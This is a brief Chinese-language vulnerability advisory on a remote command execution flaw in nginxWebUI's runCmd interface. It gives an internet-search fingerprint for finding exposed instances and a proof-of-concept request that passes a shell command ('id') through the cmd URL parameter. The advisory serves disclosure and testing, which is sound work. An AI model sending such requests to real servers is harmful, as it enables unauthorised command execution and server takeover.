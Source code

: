 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

nginxWebUI

## 网络测绘

```
title="nginxwebui"
```

## 漏洞复现

登录页面

![image-20230704113502611](images/image-20230704113502611.png)

验证请求包

```
/AdminPage/conf/runCmd?cmd=id
```

![image-20230704113520591](images/image-20230704113520591.png)